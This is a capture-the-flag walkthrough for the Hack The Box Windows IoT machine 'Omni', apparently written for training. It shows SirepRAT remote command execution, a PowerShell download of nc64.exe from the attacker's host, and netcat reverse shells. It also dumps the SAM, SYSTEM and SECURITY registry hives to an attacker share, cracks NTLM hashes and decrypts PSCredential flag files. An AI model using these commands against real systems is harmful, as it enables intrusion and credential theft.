

# Walkthrough - Omni, a Hack The Box machine

## About the machine




| data |  |
|--------| ------- |
| Machine | Omni |
| Platform | Hackthebox |
| url | [link](https://app.hackthebox.com/machines/Omni) |
| OS | Windows |
| Difficulty | Easy |
| Points | 20 |
| ip | 10.129.2.27 |


## Getting user.txt flag

### Enumeration

```bash
sudo nmap -sV -sC $ip -p-
```

Results:

```
PORT      STATE SERVICE  VERSION
135/tcp   open  msrpc    Microsoft Windows RPC
5985/tcp  open  upnp     Microsoft IIS httpd
8080/tcp  open  upnp     Microsoft IIS httpd
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Windows Device Portal
|_http-title: Site doesn't have a title.
|_http-server-header: Microsoft-HTTPAPI/2.0
29817/tcp open  unknown
29819/tcp open  arcserve ARCserve Discovery
29820/tcp open  unknown
```


### Exploiting  TCP 29817/29820

SirepRAT. Investigate 


```bash

# testing for an existing file
python ~/tools/SirepRAT/SirepRAT.py $ip GetFileFromDevice --remote_path "C:\Windows\System32\drivers/etc/hosts" --v

# Place a nc64.exe file in the apache root server
sudo cp ~/tools/nc64.exe /var/www/html

# Start Apache server
sudo service apache2 start

# Upload nc64.exe: With SireRAT use cmd.exe in the victim's machine to lauch a powershell 
python ~/tools/SirepRAT/SirepRAT.py $ip LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args ' /c powershell Invoke-WebRequest -outfile c:\windows\system32\nc64.exe -uri http://10.10.14.2/nc64.exe'

python ~/tools/SirepRAT/SirepRAT.py $ip LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args ' /c powershell Invoke-WebRequest -outfile c:\windows\system32\nc64.exe -uri http://10.10.14.2/nc64.exe'


# Open a listener in our attacker machine
rlwrap nc -lnvp 443

# Launch netcat in victim's machine via SirepRAT
python ~/tools/SirepRAT/SirepRAT.py $ip LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args ' /c c:\windows\system32\nc64.exe -e cmd 10.10.14.2 443'
```


After browsing around we can see these interesting files:

- C:\Data\Users\administrator\root.txt
- C:\Data\Users\app\user.txt
- C:\Data\Users\app\iot-admin.xml
- - C:\Data\Users\app\hardening.txt

user.txt and root.txt  are PSCredential files with this format. To decrypt their passwords, we will need  the user’s password and the administrator's password. There are several approaches to obtain them:

#### Path 1: creds in a file

Evaluate all files until you get to C:\Program Files\WindowsPowershell\Modules\PackageManagement. Use powershell so you can run:

```
ls -force
type r.bat
```

Result:

```
@echo off

:LOOP

for /F "skip=6" %%i in ('net localgroup "administrators"') do net localgroup "administrators" %%i /delete

net user app mesh5143
net user administrator _1nt3rn37ofTh1nGz

ping -n 3 127.0.0.1

cls

GOTO :LOOP

:EXIT
```


#### Path 2: Dump sam/system/security hives, extract hashes and crack them

We will dump the SAM database to the attacker's machine. For that, first we will create a share in the attacker's machine:

```bash
# First crate the share CompData in our attacker's machine
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/username/Documents/ -username "username" -password "agreatpassword"
```


```bash
#  After that, establish the connection with nc
python ~/tools/SirepRAT/SirepRAT.py $ip LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args ' /c net use \\10.10.14.2\CompData /u:username agreatpassword'
```


After that we can dump the hives: sam, system, and security:

```bash
# Now we will dump the hives we need. First, the SAM database
python ~/tools/SirepRAT/SirepRAT.py $ip LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args ' /c reg save HKLM\sam \\10.10.14.2\CompData\sam'

# Secondly, system
python ~/tools/SirepRAT/SirepRAT.py $ip LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args ' /c reg save HKLM\system \\10.10.14.2\CompData\system'

# Thirdly, security
python ~/tools/SirepRAT/SirepRAT.py $ip LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args ' /c reg save HKLM\security \\10.10.14.2\CompData\security'
```


From the attacker's machine now, we can use secretdump.py to extract the hashes:

```bash
secretsdump.py -sam sam -security security -system system LOCAL
```


From that we will obtain the following NTLM hashes:

```
Impacket v0.10.1.dev1+20230511.163246.f3d0b9e - Copyright 2022 Fortra

[*] Target system bootKey: 0x4a96b0f404fd37b862c07c2aa37853a5
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:a01f16a7fa376962dbeb29a764a06f00:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:330fe4fd406f9d0180d67adb0b0dfa65:::
sshd:1000:aad3b435b51404eeaad3b435b51404ee:91ad590862916cdfd922475caed3acea:::
DevToolsUser:1002:aad3b435b51404eeaad3b435b51404ee:1b9ce6c5783785717e9bbb75ba5f9958:::
app:1003:aad3b435b51404eeaad3b435b51404ee:e3cb0651718ee9b4faffe19a51faff95:::
```

We can crack them with hashcat:

```
hashcat -m 1000 -O -a3 -i hashes.txt
```


### Exploiting TCP 8080

Credentials obtained for user "app" and "administrator" are valid to login into the portal that we observed previously in port 8080.

Login as app, and go to the option "Run  Command"


From the attacker's machine, get a terminal listening:

```bash
rlwrap nc -lnvp 443
```

In the Run command screen, run:

```
c:\windows\system32\nc64.exe -e cmd 10.10.14.2 443
```

The listener will display the connection. Now:

```
# Launch powershell
powershell

# Go to 
cd C:\Data\Users\app

# Decrypt the PSCredential file
(Import-CliXml -Path user.txt).GetNetworkCredential().Password
```

As a result your will obtain the user.txt's flag.


## Get root.txt

Logout from the portal as user "app" and login again as administrator.


From the attacker's machine, get a terminal listening:

```bash
rlwrap nc -lnvp 443
```

In the Run command screen, run:

```
c:\windows\system32\nc64.exe -e cmd 10.10.14.2 443
```

The listener will display the connection. Now:

```
# Launch powershell
powershell

# Go to 
cd C:\Data\Users\administrator

# Decrypt the PSCredential file
(Import-CliXml -Path root.txt).GetNetworkCredential().Password
```

As a result your will obtain the root.txt's flag.
